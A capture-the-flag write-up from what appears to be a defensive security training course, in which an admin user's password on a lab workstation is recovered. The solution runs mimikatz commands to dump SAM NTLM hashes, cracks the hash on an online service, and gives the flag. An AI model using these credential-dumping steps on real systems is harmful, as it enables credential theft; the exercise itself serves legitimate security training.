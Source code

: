 # Crimson initiate

## Description

*NOTE* - The resources needed for this challenge are on the `Cyber Defense CTF Triage Workstation` VM on our [hosted platform](https://training.leveleffect.com/courses/f4a9466f-edb0-42ff-bb0e-a95af2b05de5).

Let's dabble a bit on the offensive side. There is a user named `crimson` with admin privileges on the Triage Workstation. Use any method you prefer to get the user's password. The password is the flag.

You are able to download tools to the workstation if need be.



## Solution

Install mimikatz on the virtual machine

```powershell
cd .\mimikatz_trunk\
cd x64
.\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

Output includes:

```
RID  : 000003e8 (1000)
User : crimson
  Hash NTLM: 437dbf185f1e3718a00baf073959b3f4
```

Take the NTLM hash and put it into [CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/) 



| Hash                             | Type | Result         |
| -------------------------------- | ---- | -------------- |
| 437dbf185f1e3718a00baf073959b3f4 | NTLM | vermillion0727 |

**Flag: vermillion0727**


